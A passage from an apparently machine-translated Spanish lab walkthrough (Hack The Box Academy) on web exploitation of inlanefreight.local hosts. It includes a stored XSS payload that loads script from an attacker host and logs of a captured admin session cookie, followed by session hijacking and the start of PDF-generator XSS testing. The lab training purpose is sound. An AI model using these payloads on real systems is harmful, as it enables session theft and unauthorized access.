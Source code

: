 A continuación, inicie un servidor web PHP en su host de ataque de la siguiente manera:

  Enumeración y explotación web

```shell-session
sudo php -S 0.0.0.0:9200
```

Finalmente, cree un nuevo boleto y envíe lo siguiente en el campo de mensaje:

Código:javascript

```javascript
"><script src=http://10.10.14.15:9200/script.js></script>
```

Recibimos una devolución de llamada en nuestro servidor web con la cookie de sesión de un administrador:

  Enumeración y explotación web

```shell-session
xnoxos@htb[/htb]$ sudo php -S 0.0.0.0:9200

[Tue Jun 21 00:33:27 2022] PHP 7.4.28 Development Server (http://0.0.0.0:9200) started
[Tue Jun 21 00:33:42 2022] 10.129.203.101:40102 Accepted
[Tue Jun 21 00:33:42 2022] 10.129.203.101:40102 [200]: (null) /script.js
[Tue Jun 21 00:33:42 2022] 10.129.203.101:40102 Closing
[Tue Jun 21 00:33:43 2022] 10.129.203.101:40104 Accepted
[Tue Jun 21 00:33:43 2022] 10.129.203.101:40104 [500]: GET /index.php?c=session=fcfaf93ab169bc943b92109f0a845d99

<SNIP>
```

A continuación, podemos usar un complemento de Firefox como[Editor de galletas](https://addons.mozilla.org/en-US/firefox/addon/cookie-editor/?utm_source=addons.mozilla.org&utm_medium=referral&utm_content=search)iniciar sesión usando la cookie de sesión del administrador.

![text](https://academy.hackthebox.com/storage/modules/163/edit_cookie.png)

Haga clic en el botón Guardar para guardar la cookie llamada`session`y haga clic en`Login`en la parte superior derecha. Si todo está funcionando como se esperaba, seremos redirigidos a`http://support.inlanefreight.local/dashboard.php`. Tómese un tiempo y registre otro hallazgo más`Cross-Site Scripting (XSS)`, señalando que el hallazgo es de alto riesgo porque se puede usar para robar la sesión de un administrador activo y acceder al sistema de cola de boletos. Consultar el[Scripting de sitios cruzados (XSS)](https://academy.hackthebox.com/module/details/103)Módulo para una actualización en XSS y las diversas formas en que se puede aprovechar esta clase de vulnerabilidades, incluido el secuestro de sesiones.

---

## rastreing.inlaneFreight.local

El sitio en`http://tracking.inlanefreight.local/`nos permite ingresar un número de seguimiento y recibir un PDF que muestra el estado de nuestro pedido. La aplicación toma la entrada del usuario y genera un documento PDF. Tras la generación de pdf, podemos ver que el`Tracking #:`el campo toma cualquier entrada (no solo números) que especificamos en el cuadro de búsqueda antes de presionar el`Track Now`botón. Si insertamos una carga útil simple de JavaScript, como`<script>document.write('TESTING THIS')</script>`y hacer clic`Track Now`, vemos que se genera el PDF y el mensaje`TESTING THIS`se representa, lo que parece significar que el código JavaScript se está ejecutando cuando el servidor web genera el documento.

